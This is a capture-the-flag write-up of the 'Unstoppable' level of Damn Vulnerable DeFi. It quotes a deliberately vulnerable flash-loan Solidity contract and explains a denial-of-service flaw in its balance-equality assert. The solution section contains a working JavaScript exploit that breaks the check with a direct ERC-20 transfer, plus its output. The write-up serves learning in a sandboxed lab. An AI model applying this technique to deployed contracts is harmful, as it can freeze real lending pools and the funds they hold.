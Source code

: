 ## 1) Challenge

> <cite>There's a lending pool with a million DVT tokens in balance, offering flash loans for free.</cite>
> <cite>If only there was a way to attack and stop the pool from offering flash loans ...</cite>
> <cite>You start with 100 DVT tokens in balance</cite> ([link](https://www.damnvulnerabledefi.xyz/challenges/1.html))

Challenge created by [@tinchoabbate](https://twitter.com/tinchoabbate).


## 2) Code Review

The function responsible for offering flash loans is `flashLoan`, defined in the `UnstoppableLender` contract ([source code](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/contracts/unstoppable/UnstoppableLender.sol#L33-L48)):

```solidity

contract UnstoppableLender is ReentrancyGuard {

    IERC20 public immutable damnValuableToken;
    uint256 public poolBalance;

    constructor(address tokenAddress) {
        require(tokenAddress != address(0), "Token address cannot be zero");
        damnValuableToken = IERC20(tokenAddress);
    }

    function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }

    function flashLoan(uint256 borrowAmount) external nonReentrant {
        require(borrowAmount > 0, "Must borrow at least one token");

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore);
        
        damnValuableToken.transfer(msg.sender, borrowAmount);
        
        IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
        
        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
}

```

Multiple conditions need to be satisfied before providing a flash loan:
1. the amount we want to borrow is more than `0` (line `34`)
2. the balance available in the pool is greater than the amount we want to borrow (line `37`)
3. the value of the `poolBalance` variable is equal to the balance of the pool when requesting the flash loan (line `40`)
4. the balance after the loan is offered is greater or equal to the initial balance (line `47`) - it checks if we paid back the loan

The amount we want to borrow is transferred to the `msg.sender` (who calls `flashLoan`), and the exact amount is passed to `receiveTokens` of a`ReceiverUnstoppable` contract (it simulates a potential usage of the flash loan before paying it back). Finally, the tokens are sent back to the contract ([source code](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/contracts/unstoppable/ReceiverUnstoppable.sol#L23-L27)).

#### How can we stop the pool from offering flash loans?


>If we can make one of the conditions inside the `flashLoan` function permanently false, it will no longer complete its execution, causing a Denial-of-Service.


Among all the above conditions, condition `3` and `4` are the only that don't depend on the amount we want to borrow. Since condition `4` checks if we paid back the flash loan, let's focus on condition `3`:
```solidity
assert(poolBalance == balanceBefore);
```

`depositTokens` updates both the above values: it calls `transferFrom` to transfer tokens to the pool and then updates the `poolBalance` variable with the new balance. Since tokens are transferred to the pool by calling `trasferFrom`, even the pool balance (`balanceBefore` variable in `flashLoan` function) is updated:

```solidity
    function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }
```

However, the caveat here is that the values `balanceBefore` and `poolBalance` are retrieved from different sources:
- `balanceBefore` is the output of [`balanceOf`](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#ERC20-balanceOf-address-) 
- `poolBalance` is a public variable updated when calling `depositTokens`

#### Is there a  way to transfer tokens to the pool without calling `depositTokens`?

The answer is **YES**.

`damnValuableToken` is an [ERC-20](https://eips.ethereum.org/EIPS/eip-20) token, which means it implements two functions to transfer tokens:
- `transferFrom(address sender, address recipient, uint256 amount)` (doc [here](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20-transferFrom-address-address-uint256-))
- `transfer(address recipient, uint256 amount)` (doc [here](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20-transfer-address-uint256-))

Since we have `100 DVT` tokens, we can transfer some of these tokens to the pool using the `transfer` function. This way, the pool balance (`balanceBefore`) will be different from the `poolBalance` value because we have deposited tokens without calling `depositTokens` (the `poolBalance` variable is not updated).

The function `flashLoan` will stop working because the condition `3` will be false.


## 3) Solution

The solution consists in sending some `DVT` tokens to the pool using `transfer`:
```javascript

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */

        async function logData(){
            console.log(`Attacker token balance:    ${ethers.utils.formatEther(await this.token.balanceOf(attacker.address))}`);
            console.log(`Pool token balance:        ${ethers.utils.formatEther(await this.token.balanceOf(this.pool.address))}`);
            console.log(`poolBalance:               ${ethers.utils.formatEther(await this.pool.poolBalance())}\n`);
        }

        await logData.call(this)

        await this.token.connect(attacker).transfer(this.pool.address, ethers.utils.parseEther('0.01'));

        await logData.call(this)

    });

```

Output:
```

Attacker token balance:    100.0
Pool token balance:        1000000.0
poolBalance:               1000000.0

Attacker token balance:    99.99
Pool token balance:        1000000.01
poolBalance:               1000000.0

```

You can find the complete code [here](https://github.com/dellalibera/damn-vulnerable-defi-solutions/blob/471f1d2e6b5542a31b8a8db996dceedcd39ae37d/test/unstoppable/unstoppable.challenge.js#L44-L54).


## 4) References

- [EIP-20: Token Standard](https://eips.ethereum.org/EIPS/eip-20)
- [ERC20.sol  implementation](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)
- [SWC-132 - Unexpected Ether balance](https://swcregistry.io/docs/SWC-132)
